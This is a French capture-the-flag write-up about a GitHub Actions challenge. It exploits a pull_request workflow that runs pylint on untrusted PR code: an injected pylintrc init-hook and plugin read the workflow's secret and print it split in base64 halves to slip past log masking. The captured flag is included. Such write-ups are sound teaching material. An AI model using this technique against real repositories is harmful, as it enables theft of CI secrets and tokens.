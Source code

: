 # D-8 GitHub Workflows - Egypt

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Egypt
on:
  pull_request:
    types:
      - opened
      - synchronize
      - edited

jobs:
  cairo:
    if: contains(github.event.pull_request.title, '[Lint]')
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions: 
      contents: read
      pull-requests: read
    env:
      FLAG: ${{ secrets.FLAG_EGYPT }}
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      - name: Checkout
        uses: actions/checkout@v4
        with: 
          ref: ${{ github.event.pull_request.head.sha }}
          path: pr
      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: 3.12
      - name: Install dependencies
        run: pip install pylint
      - name: Set config from upstream
        run: cp .pylintrc pr/.pylintrc
      - name: Lint with pylint
        id: lint
        continue-on-error: true
        working-directory: pr
        run: |
          pylint . 
```

### Trouver comment activer le workflow

Ce workflow est lancé sur les ayant '[Lint]' dans leur titre.

```yaml
on:
  pull_request:
    types:
      - opened # Lancé lorsqu'on crée une nouvelle PR
      - synchronize # Lancé lorsqu'un nouveau commit est ajouté a la PR
      - edited # Lancé lorsqu'un changement a la PR est effectué

...

 if: contains(github.event.pull_request.title, '[Lint]')
```


### Exploit
Ce workflow utilise PyLint pour analyser le code Python selon une liste de règles. On ne peut changer directement le fichier de configurations puisque le workflow copie celui provenant du repo original (en lecture seule).

```
cp .pylintrc pr/.pylintrc
```

Par contre, en lisant la [documentation de PyLint](https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options), on peut voir que cet outils supporte plusieurs fichier de configuration. De plus, PyLint support d'ajouter des extensions en Python.

`pylintrc`
```toml
[MASTER]

<!-- Permet d'importer des modules du fichier courant -->
init-hook='import sys; import os; print(os.listdir("..")); sys.path.append(".")'
load-plugins=my_plugin
```

`my_plugin.py`
```py
import os
import base64
import sys

def run_sh_code(command):
    result = os.popen(command).read()
    return result

def register(linter):
    flag = os.getenv('FLAG', 'none')
    b64_flag = base64.b64encode(flag.encode()).decode()
    # Split le flag en 2 pour éviter que Github ne le censure
    print("Flag: ", b64_flag[0:len(b64_flag)//2], " | ", b64_flag[(len(b64_flag)//2)-4:])

```

![issue](./assets/egypt-workflow.png)

---
## Flag:

`flag-egypt-9312131bb234`